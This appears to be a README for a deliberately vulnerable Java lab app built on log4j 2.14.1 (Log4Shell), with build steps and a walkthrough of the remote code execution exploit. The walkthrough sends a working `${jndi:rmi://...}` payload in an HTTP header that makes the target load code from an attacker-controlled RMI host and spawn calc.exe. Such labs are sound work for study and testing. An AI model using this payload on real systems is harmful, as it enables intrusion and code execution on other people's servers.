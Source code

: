 # log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bay appRun
```

(JDK is needed.)

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "x-log". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'x-log: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "x-log" header: `curl http://192.168.56.101:8888/app/servlet -H 'x-log: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "x-log" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "x-log" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4jshell_rce_demo.png)
